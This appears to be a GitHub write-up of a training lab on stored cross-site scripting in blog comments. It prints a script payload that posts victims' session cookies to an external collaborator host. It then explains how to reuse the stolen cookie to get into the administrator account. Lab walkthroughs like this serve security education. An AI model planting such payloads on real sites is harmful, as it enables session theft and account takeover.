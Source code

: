 
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.


Use collaborator to open a server, and using the following code paste your URL next to fetch:

This script will make anyone who views the comment issue a POST request containing their cookie to your subdomain on the public Collaborator server.


`<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>`

<img width="1452" height="958" alt="image" src="https://github.com/user-attachments/assets/8cc2429f-aecd-49ed-847b-b365597d9a9f" />



Paste it in the comment and you will get administrator's account cookie in a request, copy and paste it in your request of /my-account and you will be logged as an administrator.

<img width="1452" height="592" alt="image" src="https://github.com/user-attachments/assets/018c249f-4aba-4c60-b3bb-0b89eb023ed1" />
